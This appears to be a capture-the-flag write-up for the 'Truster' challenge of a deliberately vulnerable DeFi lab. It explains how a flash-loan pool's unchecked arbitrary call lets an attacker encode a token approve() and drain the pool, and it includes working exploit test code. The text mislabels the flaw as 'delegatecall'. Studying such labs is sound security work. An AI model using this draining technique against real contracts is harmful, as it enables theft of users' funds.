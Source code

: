 # Challenge #3 - Truster   
 More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

 Currently the pool has 1 million DVT tokens in balance. And you have nothing.

 But don't worry, you might be able to take them all from the pool. In a single transaction.

## Exploit
In this challenge, the smart contract is vulnerable to delegatecall, where the attacker can 
execute some logic functionality on behalf of the smart contract in the ``target.functionCall(data)`` 
on line 36 on the ``flashloan()``.  

Knowing this, we can send some data to the ``flashLoan()`` to approve the attacker to tranfer 
himself any amount of funds, draining the contract.   
 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
		const abi = [
			"function approve(address spender, uint256 amount) external returns (bool)",
			"function transfer(address to, uint amount)"
		];
		const iface = new ethers.utils.Interface(abi);
		const data = iface.encodeFunctionData("approve", [attacker.address, ethers.utils.parseEther('100000000')]);
		await this.pool.flashLoan(0, attacker.address, this.token.address, data);
		this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, ethers.utils.parseEther('1000000'));
    });
```
